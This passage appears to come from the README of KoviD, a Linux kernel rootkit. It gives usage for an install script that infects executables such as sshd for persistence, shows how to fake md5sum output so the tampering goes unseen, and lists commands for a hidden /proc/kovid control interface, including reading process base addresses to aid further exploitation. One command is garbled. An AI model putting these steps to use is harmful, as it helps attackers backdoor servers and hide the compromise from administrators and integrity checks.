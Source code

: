         ---snip--
         $ ./scripts/install.sh
        Error: Missing/Invalid parameter
        Use: [override variables] ./install.sh <ELF executable>

        override defaults: VOLUNDR, KOVID, LOADER

        VOLUNDR: point to Volundr directory entry point
            default: ../volundr

        KOVID:  point to KoviD module
            default: ../kovid

        LOADER: point to loader script
            default: ../loadmodule.sh

        Examples:
            # ./install.sh /usr/sbin/sshd
            # VOLUNDR=/tmp/Volundr ./install.sh /usr/sbin/sshd
            # KOVID=/tmp/kovid.ko LOADER=/tmp/loadmodule.sh ./install.sh /usr/sbin/sshd
            $ sudo KOVID=/root/kovid.ko ./install.sh /usr/sbin/sshd

        Before running this script, make sure to:
        KoviD:      build and insmod
        Volundr:    build
        ---snip--

    2.11 MD5

        KoviD can fake md5 checksums and in lame but useful way.
        Let's say you applied persistence in binary, ELF infections
        taint the executable and the checksum
        is compromised. Use the rk to fake the output of md5sum command:

        $ echo "-m <checksum after hijack> <old original checksum>

    2.12 Base address

        Another little trick that can help exploiting other executables
        is to know their base addresses without having to open() /proc/<pid>/maps:

        $ echo "-b <PID>" >/proc/kovid
        $ cat /proc/kovid

3 - Usage

        3.1 /proc/kovid interface

            /proc/kovid is available (but hidden) at insmod
            time, it will fade away after 120 seconds.

            Bring /proc/kovid back after time out:
            ---snip---
            $ kill -SIGCONT 31337
            ---snip---
